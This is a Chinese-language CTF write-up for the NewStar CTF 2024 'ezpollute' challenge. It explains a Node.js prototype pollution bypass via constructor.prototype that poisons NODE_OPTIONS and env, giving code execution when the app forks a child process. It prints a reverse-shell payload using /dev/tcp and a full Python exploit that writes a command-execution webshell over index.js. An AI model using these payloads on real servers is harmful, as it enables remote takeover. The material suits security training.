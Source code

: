 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# ezpollute

根据题目名称可知，这是一道 JavaScript 的原型链污染题

查看部署文件，可以得知 Node.js 版本为 16，并且使用了 `node-dev` 热部署启动

![Dockerfile](/assets/images/wp/2024/week4/ezpollute_1.png)

审计 `index.js`，`/config` 路由下调用了 `merge` 函数，`merge` 函数意味着可能存在的原型链污染漏洞

```javascript
router.post('/config', async (ctx) => {
    jsonData = ctx.request.rawBody || "{}"
    token = ctx.cookies.get('token')
    if (!token) {
        return ctx.body = {
            code: 0,
            msg: 'Upload Photo First',
        }
    }
    const [err, userID] = decodeToken(token)
    if (err) {
        return ctx.body = {
            code: 0,
            msg: 'Invalid Token',
        }
    }
    userConfig = JSON.parse(jsonData)
    try {
        finalConfig = clone(defaultWaterMarkConfig)
        // 这里喵
        merge(finalConfig, userConfig)
        fs.writeFileSync(path.join(__dirname, 'uploads', userID, 'config.json'), JSON.stringify(finalConfig))
        ctx.body = {
            code: 1,
            msg: 'Config updated successfully',
        }
    } catch (e) {
        ctx.body = {
            code: 0,
            msg: 'Some error occurred',
        }
    }
})
```

`merge` 函数在 `/util/merge.js` 中，虽然过滤了 `proto`，但我们可以通过 `constructor.prototype` 来绕过限制

```javascript
// /util/merge.js
function merge(target, source) {
    if (!isObject(target) || !isObject(source)) {
        return target
    }
    for (let key in source) {
        if (key === "__proto__") continue
        if (source[key] === "") continue
        if (isObject(source[key]) && key in target) {
            target[key] = merge(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target
}
```

`/process` 路由调用了 `fork`，创建了一个 JavaScript 子进程用于水印添加

```javascript
try {
        await new Promise((resolve, reject) => {

            // 这里喵
            const proc = fork(PhotoProcessScript, [userDir], { silent: true })

            proc.on('close', (code) => {
                if (code === 0) {
                    resolve('success')
                } else {
                    reject(new Error('An error occurred during execution'))
                }
            })

            proc.on('error', (err) => {
                reject(new Error(`Failed to start subprocess: ${err.message}`))
            })
        })
        ctx.body = {
            code: 1,
            msg: 'Photos processed successfully',
        }
    } catch (error) {
        ctx.body = {
            code: 0,
            msg: 'some error occurred',
        }
    }
```

结合之前的原型链污染漏洞，我们污染 `NODE_OPTIONS` 和 `env`，在 `env` 中写入恶意代码，`fork` 在创建子进程时就会首先加载恶意代码，从而实现 RCE

```python
payload = {
    "constructor": {
        "prototype": {
            "NODE_OPTIONS": "--require /proc/self/environ",
            "env": {
                 "A":"require(\"child_process\").execSync(\"bash -c \'bash -i >& /dev/tcp/ip/port 0>&1\'\")//"
            }
        }
    }
}
# 需要注意在 Payload 最后面有注释符 `//`，这里的思路跟 SQL 注入很像
```

考虑到新生可能没有云服务器来反弹 shell，因此在赛题设计时选择了热部署启动

除了弹 shell，还可以通过写 WebShell 覆盖 `index.js`，从而实现有回显 RCE，或者把 flag 输出到 `static` 目录下读也可以

比赛时题目环境并没有出网，弹不了 shell，只能通过后两种方式来做，这里给出写 WebShell 的做法

:::tip 热部署
就是在应用正在运行的时候升级软件，却不需要重新启动应用
:::

```python
import requests
import re
import base64
from time import sleep

url = "http://url:port"

# 获取 token
# 随便发送点图片获取 token
files = [
    ('images', ('anno.png', open('./1.png', 'rb'), 'image/png')),
    ('images', ('soyo.png', open('./2.png', 'rb'), 'image/png'))
]
res = requests.post(url + "/upload", files=files)
token = res.headers.get('Set-Cookie')
match = re.search(r'token=([a-f0-9\-\.]+)', token)
if match:
    token = match.group(1)
    print(f"[+] token: {token}")
headers = {
    'Cookie': f'token={token}'
}

# 通过原型链污染 env 注入恶意代码即可 RCE

# 写入 WebShell
webshell = """
const Koa = require('koa')
const Router = require('koa-router')
const app = new Koa()
const router = new Router()

router.get("/webshell", async (ctx) => {
    const {cmd} = ctx.query
    res = require('child_process').execSync(cmd).toString()
    return ctx.body = {
        res
    }
})

app.use(router.routes())
app.listen(3000, () => {
    console.log('http://127.0.0.1:3000')
})
"""

# 将 WebShell 内容 Base64 编码
encoded_webshell = base64.b64encode(webshell.encode()).decode()

# Base64 解码后写入文件
payload = {
    "constructor": {
        "prototype": {
            "NODE_OPTIONS": "--require /proc/self/environ",
            "env": {
                "A": f"require(\"child_process\").execSync(\"echo {encoded_webshell} | base64 -d > /app/index.js\")//"
            }
        }
    }
}

# 原型链污染
requests.post(url + "/config", json=payload, headers=headers)

# 触发 fork 实现 RCE
try:
    requests.post(url + "/process", headers=headers)
except Exception as e:
    pass

sleep(2)
# 访问有回显的 WebShell
res = requests.get(url + "/webshell?cmd=cat /flag")
print(res.text)
```
